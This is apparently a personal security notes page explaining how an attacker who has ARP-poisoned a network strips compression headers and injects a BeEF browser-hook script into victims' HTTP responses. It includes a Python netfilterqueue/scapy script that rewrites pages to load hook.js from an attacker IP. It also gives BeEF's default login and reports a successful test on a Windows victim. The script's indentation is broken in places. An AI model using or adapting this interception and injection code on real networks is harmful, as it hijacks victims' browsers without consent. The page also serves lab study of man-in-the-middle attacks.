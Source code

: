 ```yaml
---
title: "HTTP code injection & BeEF"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data on the fly.  

[arp_cache_poisoning]: https://bxg7.github.io/owned/arp/arp_cache_poisoning/

Since most clients will request [content encoding][http_compression] (by adding a "Accept-Encoding" header), the HTTP response data (scapy.Raw layer) will look like gibberish.  
This is is because the data is GZIPPED most of the time. To get around this we can simply delete this header from the HTTP request!  
https://en.wikipedia.org/wiki/HTTP_compression

We also need to make sure we change the size of the "Content-Length" value to match with our injected code.   
Otherwise the client browser will not accept the server response.  

In the below example code we then use BeEF on our attacker machine. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser. The key to success with BeEF is to "hook" a browser. This basically means that we need the victim to visit a vulnerable web app (or as shown in the below code example just by browsing to a HTTP website that has a particular string in the body text). This injected code in the "hooked" browser then responds to commands from the BeEF server. From there, we can do a number of malicious things on the victim's computer.  

On Parrot OS i first opened BeEF Framework and then logged in with the default credentials for BeEF: beef/beef at:
http://localhost:3000/ui/authentication

![beef](beef.jpg)

In the below example we are modifying HTTP responses and injecting the BeEF Hook javascript code into it. Evil stuff :-P  

I successfully tested all this on a Windows 10 victim PC with Chrome browser by visiting a HTML site that had a particular string in the body and replacing this with injected code.

I then verified the browser was hooked in BeEF on my attacker machine. Then i succesfully send a JS alert via BeEF (commands > browser > hooked domain > create alert dialog). 

```python

# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy
import re

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum

    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        if scapy_packet[scapy.TCP].dport == 80:
            print("[+] Request")
            load = re.sub("Accept-Encoding:.*?\\r\\n", "", scapy_packet[scapy.Raw].load)

        elif scapy_packet[scapy.TCP].sport == 80:
          print("[+] Response")
                print(scapy_packet.show())
                injection_code = '<script src="http://192.168.178.18:3000/hook.js"></script>'
                load = scapy_packet[scapy.Raw].load.replace('<meta property="og:title" content="Home"/>', injection_code)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))

        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(str(new_packet))
    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
